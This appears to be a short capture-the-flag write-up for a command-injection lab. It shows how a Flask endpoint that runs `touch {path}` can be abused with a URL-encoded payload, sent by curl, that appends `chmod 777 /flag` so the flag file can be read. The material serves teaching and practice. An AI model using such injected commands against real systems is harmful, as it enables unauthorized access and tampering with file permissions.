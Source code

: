 # CMDi 5

```shell
cat /challenge/server
```

The Flask app takes a path as query param (`/assignment?path`) and executes `touch {path}`
Output is not shown, so `cat` won't work. But we can change the permission of the flag file and then read it.

Executing: \
touch **/flag; chmod 777 /flag**

Start the server and use curl:

```shell
curl http://challenge.localhost:80/assignment?path=%2Fflag%3B%20chmod%20777%20%2Fflag
cat /flag
```
